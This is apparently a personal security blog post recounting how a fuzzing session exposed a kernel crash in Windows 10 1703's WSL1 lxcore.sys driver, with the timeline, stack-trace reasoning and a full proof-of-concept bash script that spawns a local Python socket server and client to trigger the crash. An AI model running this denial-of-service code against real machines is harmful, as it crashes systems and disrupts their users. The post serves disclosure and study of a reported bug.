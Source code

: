 ```yaml
---
id: 438
title: 'Babesia – Windows 10 1703 DoS in lxcore'
date: '2020-01-10T20:04:36+01:00'
author: Martin
layout: post
guid: 'https://www.sundhaug.com/?p=438'
permalink: /w10-1703-bugcheck-in-lxcore/
categories:
    - Hacking
---
```


## Timeline

{% highlight text %}
Found at or before May 2nd, 2017
Reported May 2nd~3rd, 2017
Fixed in 10.0.15063.XXX 2017-XX-XX
{% endhighlight %}

## Demo

<iframe width="#{@width}" height="#{@height}" src="https://www.youtube.com/embed/i99ut6KgdvQ"></iframe><br /> <a href="https://www.youtube.com/watch?v=i99ut6KgdvQ">Video</a>
## Story

Years ago, while trying to fuzz the GDB-server-implementation in the Nintendo® Game Boy Advance-emulator VBA-M (Visual-Boy Advance), I came upon a few issues. For one, fuzzing on Windows 10, my primary operating-system, was not as easy as I’d like it to. Now this was a fairly easy problem to solve, as Microsoft had just a few months before released their first stable release of the Windows Subsystem for Linux (IIRC, still called Bash on Windows at the time). The second issue, was that I couldn’t find an appropriate protocol-fuzzer for GDB. This required a bit more work, requiring me to write one myself in python. GDB treats a TCP-connection as a serial-port, meaning it reuses the GDB serial-protocol. The GDB serial-protocol is reasonably well documented, so this didn’t pose too many additional hours. Then, there was the big issue: My computer crashing.

<figure class="wp-block-image size-large">![In Norwegian: "Your PC ran into a problem and needs to restart. We're just collecting some error info, and then we'll restart for you.
...
Stop-code SYSTEM_THREAD_EXCEPTION_NOT_HANDLED
What failed: LXCORE.SYS"](https://i0.wp.com/www.sundhaug.com/wp-content/uploads/2020/01/image.png?resize=525%2C386&ssl=1)<figcaption>Picture of the bugcheck</figcaption></figure>A bugcheck, or Blue Screen Of Death, is triggered whenever the Windows kernel detects an error. VBA-M runs in user-mode, as does GDB, as does my python-based fuzzer. Nothing in user-mode should be able to cause a kernel crash and if it does, that’s a bug, and a potential security-issue.

So, now the questions become what’s triggered, where is it triggered, and how is it triggered.

Now, the first clue is in the bugcheck itself, on the bottom-most line: “LXCORE.SYS”. LXCORE.SYS, which was previously known as dates back to Microsofts Project Astoria, and is the core kernel-component of WSL1 (As the name suggests). So now we know what kernel-module is failing, and it’s not too surprising that it is the (then) relatively new WSL1.

The second clue? Well it happens when VBA-M has its GDB-server enabled, but not when it isn’t. Third, when the bugcheck is triggered, Windows writes a memory-dump to the C:\\-drive. The memory-dump includes everything that’s needed to find out what went wrong, including the stack-trace. The stack-trace, or the call-stack if you will, includes references to functions like: “LxpSocketInetStreamShutdownInternal”, “LxpSocketInetStreamFileReleaseInternal”, and “LxpSocketInetStreamAcceptWorkerRoutine”. These functions have a few words in common, such as “Lxp” (possibly LinuX Pico), “Inet” (indicating IP), and “Stream” (in context, TCP). The word “Accept” indicates that it likely has to do with the server accepting a connection.

## Exploit

Now, to test the hypothesis, we need to create the most basic possible “server”, and associated client. To accept a TCP-connection, you need to do three syscalls in a \*nix-system:

1. You need to bind the socket to a port
2. You need to listen on that socket
3. You need to accept the connection

When you do this, and have a client send data early, you end up with a bugcheck. Yay for crashing the PC.

The below exploit is very simple, it’s just a bash-program (with some flare of course), that writes a python client and a python server to disk, then runs both of them for a few seconds (assuming that if the bug is triggered, it’s relatively fast). If the program completes running for more than 1 minute, it’s assumed that the bugcheck has been fixed.

{% highlight bash %}
#!/bin/bash
function typewriter
{
    text="$1"
    for i in $(seq 0 $(expr length "${text}")) ; do
        echo -n "${text:$i:1}"
        sleep 0.003
    done
}

function hackify
{
    echo -e "\033[38;2;0;250;0m"
    echo -e "\033[48;2;0;000;0m"
}

typewriter "[ * ] Hackifying terminal"
for i in $(seq 3); do
    echo -n .
    sleep .3
done
hackify
clear
typewriter "[ * ] Terminal hackified"
sleep 1
clear

typewriter "|----------------------------------------|";echo
typewriter "|                                        |";echo
typewriter "|                Babesia                 |";echo
typewriter "|                                        |";echo
typewriter "|             by @sundhaug92             |";echo
typewriter "|                                        |";echo
typewriter "|----------------------------------------|";echo

echo
echo  3
echo "
import socket
import time
s = socket.socket()
s.bind(('0.0.0.0', 55555))
s.listen(1)
s.accept()
while True: time.sleep(1)" > server.py
sleep 1
echo 2
echo -e "
import socket
r = []
while True:
    s = socket.socket()
    s.connect(('localhost', 55555))
    s.send(b'A')
    r.append(s)" > client.py
sleep 1

echo 1
python server.py &
server_pid=$!
sleep 1

python3 client.py &
client_pid=$!
sleep 1
echo IMPACT

for i in $(seq 60); do
    echo -n .
    sleep 1
done

clear

typewriter "https://www.youtube.com/watch?v=w1--BxLy3lg#t=1m39s";echo
typewriter "^ We're still here'";echo
echo
typewriter "killing child-processes"
kill -9 $server_pid $client_pid

{% endhighlight %}

The exploit is named after Babesia, which is a single-cell parasite.